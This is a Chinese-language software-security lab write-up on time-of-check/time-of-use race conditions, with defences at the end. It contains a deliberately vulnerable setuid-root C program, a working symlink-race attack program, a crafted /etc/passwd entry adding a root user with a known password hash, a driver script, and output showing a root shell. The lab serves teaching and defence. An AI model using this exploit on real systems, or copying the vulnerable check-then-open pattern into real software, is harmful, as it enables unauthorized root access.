 #

#### 漏洞原理
通常在条件检查和实际资源使用之间存在一小段时间。检查过的条件如果在这段时间内发生变化，建立在检查结果上的使用授权就有安全问题了。  
在电商中普遍是商品超买超卖的问题也是如此。  


#### 漏洞试验
**特权漏洞程序**   
```
// vul.c
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/X";
    char buffer[60];
    FILE *fp;

    scanf("%60s", buffer);
    if (!access(fn, W_OK))
    {
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");

    return 0;
}
```
```
ubuntu@VM-0-17-ubuntu:~/jingtai$ gcc -o vul vul.c 
ubuntu@VM-0-17-ubuntu:~/jingtai$ sudo chown root vul
ubuntu@VM-0-17-ubuntu:~/jingtai$ sudo chmod 4755 vul
ubuntu@VM-0-17-ubuntu:~/jingtai$ sudo sysctl -w fs.protected_symlinks=0  # 关闭保护机制
```
在/tmp目录任何用户都可以在其中创建文件，但是不能修改其他用户文件(除了root用户)。所以需要access()来确保真实用户拥有对目标文件的写入权限。  
access()系统调用会检查真实用户的权限。open()函数会检查的是有效用户的权限。  



#### 攻击目标
在/etc/passwd新增一个拥有root权限的用户  
  

![](/software-security/img/race-1.png)

需要两个程序，一个循环运行漏洞程序，一个循环攻击程序。  
攻击程序: （A1）使/tmp/X指向用户拥有的权限 （A2）使/tmp/X指向/etc/passwd  
漏洞程序： （V1）assecc检查 （V2）open检查  
当发生 A1，V1，A2，V2的时候就有权限打开/etc/passwd并进行修改。



#### 攻击准备
**攻击程序**
```
// attack_process.c
#include <unistd.h>

int main()
{
    while(1)
    {
        unlink("/tmp/X");
        symlink("/dev/null", "/tmp/X");
        usleep(1000);

        unlink("/tmp/X");
        symlink("/etc/passwd", "/tmp/X");
        usleep(1000);
    }
    return 0;
}
```
```
gcc -o attack_process attack_process.c
```
unlink()函数： 为了改变一个符号链接，需要删除已有链接  
/dev/null是一个特殊的设备，任何用户都是可写的  


**准备输入文件passwd_input**  
/etc/passwrd数据的第二个字段是密码，如果不设为`x`,那么就不会区shadow中寻找密码  
第三个字段为0改进程就拥有root权限  

可以使用如下命令生成加密的密码，第一个参数是密码，第二个参数是盐值 
```
ubuntu@VM-0-17-ubuntu:~$ python3 -c "from crypt import crypt; print(crypt('test', 'abc'))"
abgOeLfPimXQo
ubuntu@VM-0-17-ubuntu:~$ perl -e 'print crypt("test", "abc")."\n"'
abgOeLfPimXQo
```

因此，输入文件可以是
```
testuser:abgOeLfPimXQo:0:0:testuser:/root:/bin/bash
```

!!! warning
    放在/etc/passwd中的密码和在shadow中的密码不一致，在shadow中的还经过了别的加密


**运行漏洞程序并加以监控**  
target_process.sh  
```
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)

while [ "$old" == "$new" ]
do 
    ./vul < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

**开始攻击**  
终端1
```
ubuntu@VM-0-17-ubuntu:~/jingtai$ ls
attack_process  attack_process.c  passwd_input  target_process.sh  vul  vul.c
ubuntu@VM-0-17-ubuntu:~/jingtai$ ./attack_process 
^C
```

终端2
```
ubuntu@VM-0-17-ubuntu:~/jingtai$ bash target_process.sh 
No permission 
No permission 
...
No permission 
No permission 
STOP... The passwd file has been changed
```

终端3
```
ubuntu@VM-0-17-ubuntu:~$ ll /tmp/X
ls: cannot access '/tmp/X': No such file or directory
ubuntu@VM-0-17-ubuntu:~$ ll /tmp/X
-rw-rw-r-- 1 root ubuntu 191709 Jul 29 19:23 /tmp/X
ubuntu@VM-0-17-ubuntu:~$ sudo rm /tmp/X
ubuntu@VM-0-17-ubuntu:~$ ll /tmp/X
-rw-rw-r-- 1 root ubuntu 91239 Jul 29 19:24 /tmp/X
ubuntu@VM-0-17-ubuntu:~$ sudo rm /tmp/X
ubuntu@VM-0-17-ubuntu:~$ ll /tmp/X
lrwxrwxrwx 1 ubuntu ubuntu 9 Jul 29 19:24 /tmp/X -> /dev/null
```

在终端2  
可以看到/etc/passwd文件已经发生变化，因此切换用户
```
ubuntu@VM-0-17-ubuntu:~/jingtai$ su testuser 
Password: test
root@VM-0-17-ubuntu:/home/ubuntu/jingtai# id
uid=0(root) gid=0(root) groups=0(root)
```
攻击成功



**注意:**
在试验过程中，如果/tmp/X所有者变成了root(拥有者应该是攻击者)，原因不明。出现这个情况可以删除/tmp/X重新尝试，或调整usleep睡眠时间  




#### 防御措施
**1.通过原子操作消除检查和使用之间的时间差**  
文件操作的原子化一般是通过对文件上锁来实现的，在大多操作系统中上锁不是硬性规定(通常被称为软锁)。  
操作系统在内核中也有很多检查和使用的情况,因此如果把检查和使用放在一个系统调用中，是可以利用内核中的上锁机制原子化的。  
按照这个想法，如果open()可以提供一个新的选项（**只是如果，并没有这个选项～**）， 比如：  
```
f=open("/tmp/X", O_WRITE | O_REAL_USER_ID);
```
O_REAL_USER_ID可以检查用户的真实用户id，这样access()就是多余的了。   


**2.重复检查和使用**
比如在程序中加入多次access(), open()重复代码，然后检查多次打开的文件是否相同，如果一次没满足条件，就不能攻击成功。  


**3.粘滞符号链接保护**
大部分竞态条件漏洞都与/tmp中的符号链接有关。因此ubuntu自带了fs.protected_symlinks这个保护机制。  
当打开了这个保护时，全局可写的粘滞目录中的符号链接只能在符号链接的所有者，跟随者(进程的有效id)和目录所有者的其中之一匹配时才能被跟随。

![](/software-security/img/race-2.png)




**4.最小权限原则**
在上面特权程序中实际时写入一个不需要权限就能写入的文件。因此最大的根本问题就是赋予程序的权限大于实际需求。  

```
uid_t real_uid = getuid(); // 得到真实用户id
uid_t eff_uid = geteuid(); // 得到有效用户id

seteuid(real_uid);  //临时关闭root权限

// 业务逻辑

seteuid(eff_uid);  //如有需要，在打开root权限
```
 

































